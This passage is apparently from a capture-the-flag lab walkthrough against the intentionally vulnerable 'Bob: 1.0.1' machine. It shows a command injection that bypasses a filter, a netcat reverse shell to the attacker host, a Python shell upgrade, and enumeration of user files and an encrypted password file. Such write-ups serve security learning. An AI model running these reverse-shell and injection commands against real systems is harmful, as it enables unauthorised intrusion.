 This means that with a carefully constructed input it is possible to exploit the vulnerability of the web server.

### Execution
Since the circumvention has been discovered, it's time to exploit the vulnerability.  
The goal is to open a remote shell of the vulnerable web server on the Kali Linux virtual machine using the Netcat tool, which establishes a TCP connection between the two hosts.

Two steps are involved:

```bash
nc -lvp 6000
```
is run on Kali side. The machine creates a process listening on port 6000 for connection requests, this will be the server side of the TCP connection.  
Command options:
- `-l` specifies the listen mode, for inbound connections;
- `v` stands for "verbose", providing additional information about the session state;
- `-p 6000` specifies the local port number chosen. 

```bash
id | nc -e /bin/bash 10.0.2.6 6000
```

is run in the text box of the target web interface. This command bypasses the filter and initiates a TCP connection: the web server will be the client side of the connection.  
Command options:
- `id |` for filter circumvention;
- `-e /bin/bash` specifies the program to execute after connection, in this case, a Bash shell.
- `10.0.2.6 6000` specifies the hostname and port number of the server side.

Although the attempt aims to establish a remote Bash shell on the Kali virtual machine, the spawned process is only a basic Sh shell. To upgrade it to a more powerful and interactive shell,  on the server side of the connection the following text line is written:


```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```
This command invokes a Bash shell using the command line Python interpreter. 

The established shell is a reverse shell since the server side is on the attacker's machine, and it is the target side that initiates the connection to the attacker.

Now it is possible navigate the file system of _Bob: 1.0.1_ machine. The current account is `www-data`, but it is needed to gain higher privileges to complete the challenge, in fact moving to the root directory of the file system and listing files with `ls -l` command it's possible to see that the `flag.txt` file can be opened only by root account because it is the legitimate owner.

Exploring the `/home` directory reveals additional user accounts: `bob`, `elliot`, `jc`, `seb`.  
Inside Bob's directory (`/home/bob/Documents`), an encrypted file named `login.txt.gpg` and a directory named "Secret" are found. In this directory, on path `/home/bob/Documents/Secret/Keep_Out/No_Lookie_In_Here` there is a script called `notes.sh` that produces a list of apparently no sense phrases.
However, extracting the first letter of each line the word 'HARPOCRATES' is composed (this is the name of an Egyptian divinity), potentially the passphrase for the encrypted file.
